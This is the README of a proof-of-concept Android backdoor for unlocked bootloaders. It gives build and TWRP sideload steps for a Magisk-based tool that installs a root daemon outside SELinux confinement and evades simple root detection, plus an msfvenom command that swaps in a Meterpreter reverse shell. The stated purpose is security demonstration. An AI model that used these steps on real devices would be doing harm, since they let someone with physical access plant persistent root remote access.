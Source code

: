 # Unlocked bootloader backdoor demo for Android

This is a tool that installs a custom binary into a system partition. This binary runs as a system daemon with root privileges and not restricted by SELinux policies. This tool is based on [Magisk](https://github.com/topjohnwu/Magisk) source code, but does not necessary require root or magisk preinstalled on the device. So basically this IS the magisk but only the part that injects new SELinux policies. It injects magiskinit binary in boot partition but does not install or use any other magisk tools. It also does not add any magisk files to device filesysytem, which allows it to avoid simple root detection tools, but unfortunately it is still detectable by SafetyNet.         

The goal of this is to show that unlocking the bootloader can expose your device to an attacker with physical access.

I successfully tested it on android 9 with normal init process and android 10 with two-staged init. It should work on other configurations as well but there can be troubles.

In this repo the embedded binary is made for the demo purposes only. It just drops a line to logcat once in 5 seconds, but you cat replace it with your own if you want. For example, if you are on Kali you can generate the reverse shell payload:
```
$ rm revshell/revshell
$ msfvenom -p linux/aarch64/meterpreter/reverse_tcp LHOST=<YOUR_LISTENER_IP> LPORT=<YOUR_LISTENER_PORT> -f elf > revshell/revshell
```
After that you can build the packages and flash your binary instead of the one provided with the repo.  

## Prerequisites

- First, you have to install android SDK for your OS if you haven't already.
- Second, make sure you have python3 installed.

After that you are all set up.

## Build

The result package is a TWRP sideloadable zip file.

set a ANDROID_SDK_ROOT variable in your shell. For example:  
```
$ ANDROID_SDK_ROOT=/usr/lib/android-sdk
$ export ANDROID_SDK_ROOT
```

Prepare NDK for the build:
```
$ ./build_revshell.py ndk
```

Run the build:
```
$ ./build_revshell.py
```

## Download

You can download release packages directly:
- [zip_reverse_shell_install.zip](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/releases/download/v1.0/zip_reverse_shell_install.zip)
- [zip_reverse_shell_uninstall.zip](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/releases/download/v1.0/zip_reverse_shell_uninstall.zip)

## Install

Run TWRP on your device.

Start sideload feature in Advanced/Sideload and then run:
```
$ adb sideload zip_reverse_shell_install.zip
```

Check out the output log carefully. If you have been warned that you need to backup original partitions then you have to run the command below BEFORE rebooting into system, otherwise you will not be able to uninstall this tool properly and will have to find stock boot image for your device somewhere and flash it.
```
$ adb pull /tmp/backup_original_partitions .
```

Reboot into system.

You should now be able to see new lines in logcat:

```
$ adb logcat | grep revshell
01-31 23:42:07.587  3589  3589 D revshell: Start successfull!
01-31 23:42:07.588  3589  3589 D revshell: Signals are set to ignore
01-31 23:42:07.588  3589  3589 D revshell: Hey I'm a revshell process!
01-31 23:42:07.588  3589  3589 D revshell: My PID -- 3589
01-31 23:42:07.588  3589  3589 D revshell: My parent PID -- 1
01-31 23:42:07.588  3589  3589 D revshell: My UID -- 0
01-31 23:42:07.588  3589  3589 D revshell: Awaiting encrypted FS decryption now...
01-31 23:42:27.597  3589  3589 D revshell: FS has been decrypted!
01-31 23:42:27.597  3589  3589 D revshell: Starting reverse shell now
01-31 23:42:32.597  3589  3589 D revshell: tick ! 25 seconds since process started
01-31 23:42:37.598  3589  3589 D revshell: tick ! 30 seconds since process started
01-31 23:42:42.599  3589  3589 D revshell: tick ! 35 seconds since process started
01-31 23:42:47.600  3589  3589 D revshell: tick ! 40 seconds since process started
```

## Uninstall

Use zip_reverse_shell_uninstall.zip to properly uninstall this tool. 

If during installation you have made a backup of original partitions then run:
```
$ adb push backup_original_partitions /tmp/backup_original_partitions
```

Start sideload feature in Advanced/Sideload and then run:
```
$ adb sideload zip_reverse_shell_uninstall.zip
```

Reboot into system.

## Acknowledgments

Great thanks to topjohnwu and magisk contributors for their amazing work and incredible contribution to android tinkerers community. This Demo wouldn't even exist without them. 

## Links:

[Original Magisk repository](https://github.com/topjohnwu/Magisk)
